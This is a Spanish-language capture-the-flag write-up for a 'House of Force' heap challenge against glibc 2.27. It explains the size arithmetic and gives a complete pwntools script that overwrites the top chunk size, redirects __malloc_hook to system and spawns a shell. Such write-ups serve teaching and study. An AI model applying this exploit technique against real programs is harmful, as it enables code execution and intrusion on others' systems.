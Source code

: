 # House Of Force

```
Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'$ORIGIN'
    Stripped:   No
    Debuginfo:  Yes
```

Este reto presentaba una introducción a la técnica homónima introducida en el *`Malloc Maleficarum`*.

La solucion es sencilla, dado que hay un heap overflow y contamos con glibc = 2.27 no hay verificacion de integridad del top chunk y tenemos los llamados "malloc hooks" para redirigir la ejecucion a pesar de que la GOT es de solo lectura.

Pasos:
1. Calculamos las direcciones de libc base y del top chunk con los leaks que nos brindan.
2. Reservamos un primer chunk y sobreescribimos el campo `size` del top chunk a `0xffffffffffffffff` (-1).
3. Reservamos un segundo chunk de tamaño `target_addr - top_chunk_addr - 0x20` --- siendo target_addr la direccion de `__malloc_hook` --- para posicionar el top chunk en nuestra direccion objetivo.
```
 # Explicacion del calculo
 # Nosotros queremos que new_top = __malloc_hook - len(prev_size) - len(size) = __malloc_hook - 0x10, para que en la proxima asignacion nuestro chunk apunte alli
      new_top = old_top + nb, nb es el numero de bytes reservados (10 bytes de metadata + sizeof(data))
      new_top =  __malloc_hook - 0x10
      __malloc_hook - 0x10 = old_top + nb
      __malloc_hook - 0x10 = old_top + 0x10 + size
      size = __malloc_hook - 0x10 - old_top - 0x10
      size = __malloc_hook - old_top - 0x20
```
5. Reservamos un tercer chunk --- cuyo campo de datos se encuentra en `__malloc_hook` --- y sobreescribimos la direccion del puntero con la direccion de `system`.
6. Reservamos un cuarto chunk con tamaño `binsh_addr`, provocando malloc(binsh_addr) =>  system("/bin/sh").

```py
from pwn import *
r = process("./house_of_force")
libc = ELF("./libc.so.6")

def malloc(size, data):
    r.sendline(b"1")
    r.sendlineafter(b"size:",str(size).encode())
    r.sendlineafter(b"data:",data)

r.recvuntil(b"@ ")
libc.address =  int(r.recv(14),16) - 0x80970

r.recvuntil(b"@ ")
top_chunk = int(r.recvline().strip(),16) + 0xb0

# Overwrite size of the top chunk
malloc(1,b"A"*24 + b"\xff"*8)

# Place new top chunk
evil_size = libc.symbols['__malloc_hook'] - top_chunk - 0x20
malloc(evil_size,b"")

# Overwrite __malloc_hook 
malloc(8,p64(libc.symbols['system']))

# Call system("/bin/sh")
malloc(next(libc.search("/bin/sh")),b"")

r.interactive()
```
